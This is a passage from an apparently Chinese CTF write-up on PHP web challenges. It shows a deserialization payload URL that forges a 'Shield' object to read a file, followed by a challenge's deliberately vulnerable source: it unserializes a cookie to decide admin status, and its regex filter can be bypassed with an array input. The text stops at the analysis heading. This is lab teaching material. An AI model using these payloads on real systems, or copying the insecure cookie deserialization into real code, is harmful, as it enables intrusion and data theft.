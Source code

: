 payload:
```
http://web.jarvisoj.com:32768/index.php?class=O:6:%22Shield%22:1:{s:4:%22file%22;s:8:%22pctf.php%22;}
```


## 利用提交数组绕过逻辑

**题目源码**
```php
<?php 
$role = "guest";
$flag = "flag{test_flag}";
$auth = false;
if(isset($_COOKIE["role"])){
    $role = unserialize(base64_decode($_COOKIE["role"]));
    if($role === "admin"){
        $auth = true;
    }
    else{
        $auth = false;
    }
}
else{
    $role = base64_encode(serialize($role));
    setcookie('role',$role);
}
if($auth){
    if(isset($_POST['filename'])){
        $filename = $_POST['filename'];
        $data = $_POST['data'];
        if(preg_match('[<>?]', $data)) {
            die('No No No!'.$data);
        }
        else {
            $s = implode($data);
            if(!preg_match('[<>?]', $s)){
                $flag='None.';
            }
            $rand = rand(1,10000000);
            $tmp="./uploads/".md5(time() + $rand).$filename;
            file_put_contents($tmp, $flag);
            echo "your file is in " . $tmp;
        }
    }
    else{
        echo "Hello admin, now you can upload something you are easy to forget.";
        echo "<br />there are the source.<br />";
        echo '<textarea rows="10" cols="100">';
        echo htmlspecialchars(str_replace($flag,'flag{???}',file_get_contents(__FILE__)));
        echo '</textarea>';
    }
}
else{
    echo "Sorry. You have no permissions.";
}
?>
```

**思路分析**